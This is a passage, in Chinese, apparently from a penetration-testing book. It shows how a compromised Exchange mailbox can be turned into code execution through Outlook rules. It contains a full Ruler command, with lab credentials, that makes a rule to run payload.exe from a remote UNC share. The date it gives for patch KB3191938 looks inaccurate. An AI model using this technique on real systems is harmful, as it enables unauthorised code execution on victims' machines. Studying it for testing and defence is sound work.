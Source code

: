 命令的结果如下。值得一提的是，用户应在 Exchange Server 上有一个邮箱：

![图 1.21 – PushSubscription API 调用成功](img/B18964_01_21.jpg)

图 1.21 – PushSubscription API 调用成功

由于我们已部署 Exchange Server 2016 CU12，因此它不易受到此攻击。Microsoft 移除了在发送通知时 Exchange 的自动身份验证功能。此外，Exchange 权限也被降低了。

下一部分将讨论通过 Outlook 规则、表单和主页获取初步立足点的方法。

## 获取立足点

在本节中，我们将讨论在邮箱被攻破后如何通过规则、表单和文件夹主页实现远程代码执行（RCE）的方法。如果 Outlook 没有被修补，这些方法仍然有效。需要注意的是，我们讨论的是 Outlook 中的客户端规则。

让我们从 Outlook 规则[28]开始。规则存储在 Exchange 服务器中，新的 Outlook 实例会接收所有现有的规则。我们关注的是规则的动作部分及其触发条件。当我们创建规则时，有两个动作看起来很有前景：启动应用程序和运行脚本。要执行攻击，我们需要有效的凭据、启用的 MAPI over HTTP，并且需要将恶意文件放置在磁盘上或通过 UNC 路径（也可以使用 WebDAV）访问。此攻击在已修补的 Outlook 2016 及更高版本上无法使用。为了执行此攻击，我们可以使用一个名为 Ruler[29]的工具。以下命令将在 30 秒后创建并触发规则：

```
./ruler -u vinegrep -p 'Qwerty123!' -d windomain.local -e vinegrep@windomain.local -k --url https://192.168.56.106/autodiscover/autodiscover.xml --verbose –-debug add --trigger "vinegrep" --name evil --location \\\\192.168.56.100:8000\\payload.exe --send
```

规则已成功创建：

![图 1.22 – 创建规则](img/B18964_01_22.jpg)

图 1.22 – 创建规则

有两个重要的注意事项：我们不能提供命令行参数，且需要允许外发的 WebDAV 流量。此外，在 2013 年 6 月的 Microsoft 补丁（KB3191938）更新之后，Outlook[30] 默认禁用了同时运行应用程序和脚本的规则。
